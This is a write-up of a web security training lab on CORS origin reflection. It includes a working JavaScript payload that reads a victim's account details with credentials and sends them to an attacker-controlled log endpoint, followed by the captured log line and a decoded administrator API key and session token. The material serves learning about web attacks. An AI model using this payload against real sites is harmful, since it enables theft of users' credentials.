



# CORS Vulnerability with basic origin reflection

We start browsing around the page, starting with the login:



When we login the API key is shown in the account page 🤔, so it must be retrieving it if not in the page with another request, and looking through Burp I found:



Which does not have origin, testing for an arbitrary value in the origin:



We also get a response, so there is the vulnerability because any origin works. We can create a JS that gets the accountDetails response:

```
<html>
  <body>
    <script>
      var xhr = new XMLHttpRequest();
      var url = "https://0a3400f6046ba69dc68be1a800d100cb.web-security-academy.net/accountDetails";

      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch("/log?key=" + btoa(xhr.responseText));
        }
      }

      xhr.open("GET", url, true);
      xhr.withCredentials = true;
      xhr.send(null);
    </script>
  </body>
</html>
```

Serve it to the victim in the exploit server, and getting the response from the site logs:

```
10.0.4.166      2024-11-16 04:20:13 +0000 "GET /log?key=ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogInA3QjJleTJiNFhqQXJCaVh6QzA4Y1NWbE0ybEI0enpCIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiU2J1eEZ2WWxtNnBpQm1kY29GeG5xbkRmNjlBNm5OTnQiCiAgXQp9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

Which decoded was:

```
{
  "username": "administrator",
  "email": "",
  "apikey": "p7B2ey2b4XjArBiXzC08cSVlM2lB4zzB",
  "sessions": [
    "SbuxFvYlm6piBmdcoFxnqnDf69A6nNNt"
  ]
} 
```

And we can submit the API Key response.
